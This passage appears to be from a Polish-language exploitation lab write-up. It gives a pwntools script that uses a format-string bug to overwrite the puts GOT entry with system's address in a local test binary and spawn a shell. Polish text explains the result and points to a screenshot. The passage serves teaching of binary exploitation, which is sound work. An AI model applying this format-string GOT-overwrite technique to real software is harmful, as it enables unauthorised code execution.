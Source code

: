 ```python
#!/usr/bin/env python3

from pwn import *


puts = 0x804b2b4

# system = 0xf7e10040

exploit = b''
exploit += p32(puts)
exploit += p32(puts + 2)
exploit += b'%4$56x' # writing 0x0040
exploit += b'%4$n'
exploit += b'%63393x' # writing 0xf7e1
exploit += b'%5$n'

p = process('./vuln-1.o')

p.sendline(exploit)

p.sendline('sh')

p.interactive()
```





W wyniku tego exploitu dostajemy shell. Screen poniżej jest w dwóch częściach, ponieważ na konsole wypisywane jest wiele znaków - ta ilość znaków odpowaida wartościom zapisanym w GOT.

![](pictures/shell1.png)
